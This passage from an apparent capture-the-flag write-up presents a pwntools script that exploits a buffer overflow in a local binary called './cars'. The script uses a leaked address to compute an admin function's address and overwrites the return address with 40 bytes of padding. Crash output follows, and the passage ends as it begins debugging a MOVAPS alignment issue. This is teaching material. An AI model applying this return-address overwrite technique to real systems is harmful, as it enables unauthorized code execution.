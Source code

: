 #### Final Solution

Let's try to piece together our exploit in a single pwntools script.

```py
from pwn import *

# run the program
p = process("./cars")

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```

If we try to run this script,

```
[+] Starting local process './cars': pid 1543708
[*] Switching to interactive mode
Please input your student ID: Please describe the incident: The matter has been recorded and will be investigated. Thank you.
[*] Got EOF while reading in interactive
[*] Process './cars' stopped with exit code -11 (SIGSEGV) (pid 1543708)
[*] Got EOF while sending in interactive
```

it crashes with a SIGSEGV signal.

#### A small hiccup: MOVAPS issue

We can add a line to debug our script.

```py
from pwn import *

# run the program
p = process("./cars")

gdb.attach(p)  # ATTACH OUR DEBUGGER

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```
